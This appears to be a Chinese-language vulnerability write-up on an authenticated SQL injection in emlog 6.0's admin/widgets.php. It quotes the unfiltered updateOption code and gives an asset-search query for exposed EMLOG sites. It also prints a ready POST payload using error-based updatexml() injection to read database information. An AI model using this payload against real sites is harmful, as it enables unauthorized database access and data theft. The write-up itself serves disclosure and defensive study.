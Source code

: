 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>emlog 6.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EMLOG"</a-checkbox></br>

## 漏洞复现

产品主页

```python
https://github.com/emlog/emlog
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634002177714-22159b01-c44f-476a-bb4f-8363cceb9460.png)

存在漏洞的文件为 `admin/widgets.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634002231213-67b50259-52f0-4cf0-983b-fc1a88cc6471.png)

```python
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634002837216-c1000372-81ea-4671-bc5d-c378110d93db.png)

```python
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```python
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634002917512-820b18c8-d37a-4507-974c-1ba9c2afc2ed.png)![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634003089227-452c8b4e-d367-4f01-af1f-e90a79bfd91f.png)